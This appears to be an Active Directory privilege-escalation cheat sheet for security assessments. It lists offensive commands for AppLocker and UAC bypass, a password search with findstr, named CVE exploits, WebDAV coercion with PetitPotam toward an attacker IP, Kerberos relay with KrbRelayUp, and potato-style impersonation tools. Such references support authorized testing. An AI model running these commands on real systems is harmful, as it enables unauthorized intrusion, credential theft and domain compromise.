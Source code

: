```yaml
---
title: "Low access (Privilege escalation)"
description: "Low access (Privilege escalation) techniques and commands for Active Directory security assessment."
---
```

## Bypass Applocker >>> Low access (without applocker)
- Get-Applocker infos
  - `Get-ChildItem -Path HKLM:\SOFTWARE\Policies \Microsoft\Windows\SrpV2\Exe (dll/msi/...)`
- files in writables paths
  - C:\Windows\Temp
  - C:\Windows\Tasks
- `installutil.exe /logfile= /LogToConsole=false /U C:\runme.exe`
- `mshta.exe my.hta`
- `MsBuild.exe pshell.xml`

## UAC bypass >>> Admin
- `Fodhelper.exe`
- `wsreset.exe`
- `msdt.exe`

## Auto Enum >>> Admin
- `winPEASany_ofs.exe`
- `.\PrivescCheck.ps1;  Invoke-PrivescCheck -Extended"`

## Search files >>> User Account
- `findstr /si 'pass' *.txt *.xml *.docx *.ini`

## Exploit >>> Admin
- SMBGhost CVE-2020-0796 @CVE@
- CVE-2021-36934 (HiveNightmare/SeriousSAM) @CVE@
  - `vssadmin list shadows`

## Webdav >>> HTTP Coerce
- open file <file>.searchConnector-ms
  - `dnstool.py -u <domain>\<user> -p <pass> --record 'attacker' --action add --data <ip_attacker> <dc_ip>`
    - `petitpotam.py -u '<user>' -p <pass> -d '<domain>' "attacker@80/random.txt" <ip>`

## Kerberos Relay >>> Admin
- `KrbRelayUp.exe relay -Domain <domain> -CreateNewComputerAccount -ComputerName <computer$> -ComputerPassword <password>`
  - `KrbRelayUp.exe spawn -m rbcd -d <domain> -dc <dc> -cn <computer_name>-cp <omputer_pass>`

## From Service account (SEImpersonate) >>> Admin
- RoguePatato @CVE@
- GodPotato @CVE@
- PrintSpoofer @CVE@
- RemotePotato0